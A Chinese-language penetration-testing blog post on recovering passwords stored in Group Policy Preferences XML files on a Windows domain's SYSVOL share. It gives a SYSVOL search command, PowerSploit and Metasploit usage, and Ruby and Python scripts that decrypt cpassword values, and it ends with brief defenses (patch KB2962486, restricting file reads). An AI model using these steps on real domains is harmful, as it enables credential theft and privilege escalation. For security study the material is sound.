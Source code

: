 ```yaml
---
title: "域渗透-GPP(组策略)的利用"
date: 2020-08-31 11:56:23 +0800
category: 域渗透
tags: [内网,域]
excerpt: 域渗透-GPP(组策略)的利用
---
```

# 组策略偏好
## 基础
+ SYSVOL
> SYSVOL是指存储域公共文件服务器副本的共享的文件夹，它们在域中所有的域控制器之间复制。Sysvol文件夹是安装AD时创建的，它用来存放GPO、Script等信息。同时，存放在Sysvol文件夹中的信息，会复制到域中所有DC上
所有的域组策略存储在：
```
\\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\
```
认证用户（所有域用户或者信任域里的用户）对SYSVOL拥有读权限
+ 组策略偏好GPP
```
映射驱动（Drives.xml）
创建本地用户
数据源（DataSources.xml）
打印机配置（Printers.xml）
创建/更新服务（Services.xml）
计划任务（ScheduledTasks.xml）
更改本地Administrator密码
```

## 攻击
```
dir /s /a \\Sync-DC.Sync.net\SYSVOL\sync.net\*.xml
```
http://www.91ri.org/14909.html
## 解密工具

+ PowerSploit
https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1
```
powershell  import-modulo  .\Get-GPPpassword.ps1;Get-GppPassword
```
+ ruby
ruby  gpp.rb
```ruby
require 'rubygems'
require 'openssl'
require 'base64'
encrypted_data = " v0hX9w3D40aFkfgtPgcz1yWPcjp+BqICihQlATkp50g "
def decrypt(encrypted_data)
  padding = "=" * (4 - (encrypted_data.length % 4))
  epassword = "#{encrypted_data}#{padding}"
  decoded = Base64.decode64(epassword)
   key = "\x4e\x99\x06\xe8\xfc\xb6\x6c\xc9\xfa\xf4\x93\x10\x62\x0f\xfe\xe8\xf4\x96\xe8\x06\xcc\x05\x79\x90\x20\x9b\x09\xa4\x33\xb6\x6c\x1b"
  aes = OpenSSL::Cipher::Cipher.new("AES-256-CBC")
  aes.decrypt
  aes.key = key
  plaintext = aes.update(decoded)
  plaintext << aes.final
  pass = plaintext.unpack('v*').pack('C*') # UNICODE conversion
   return pass
 end
blah = decrypt(encrypted_data)
puts blah
```
+ msf
```
msf > use post/windows/gather/credentials/gpp
msf >post(gpp) > sessions
msf >post(gpp) > set SESSION  1
msf> post(gpp) > show options
msf >post(gpp) > run
```
+ python
```
#!/usr/bin/python
#
# Gpprefdecrypt - Decrypt the password of local users added via Windows 2008 Group Policy Preferences.
#
# This tool decrypts the cpassword attribute value embedded in the Groups.xml file stored in the domain controller's Sysvol share.
#
import sys
from Crypto.Cipher import AES
from base64 import b64decode
if(len(sys.argv) != 2):
  print "Usage: gpprefdecrypt.py <cpassword>"
  sys.exit(0)
# Init the key
# From MSDN: http://msdn.microsoft.com/en-us/library/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be%28v=PROT.13%29#endNote2
key = """
4e 99 06 e8  fc b6 6c c9  fa f4 93 10  62 0f fe e8
f4 96 e8 06  cc 05 79 90  20 9b 09 a4  33 b6 6c 1b
""".replace(" ","").replace("\n","").decode('hex')
# Add padding to the base64 string and decode it
cpassword = sys.argv[1]
cpassword += "=" * ((4 - len(sys.argv[1]) % 4) % 4)
password = b64decode(cpassword)
# Decrypt the password
o = AES.new(key, AES.MODE_CBC).decrypt(password)
# Print it
print o[:-ord(o[-1])].decode('utf16')
```
## 防御
+ GPP凭证补丁(KB2962486)
2014年5月13日，微软发布了MS14-025的补丁KB2962486，即那个GPP导致的权限提升漏洞。这个补丁需要安装在所有使用了RSAT的系统上，防止管理将密码数据放进GPP里
+ 可以直接设置xml的读取权限，从而防止恶意的读取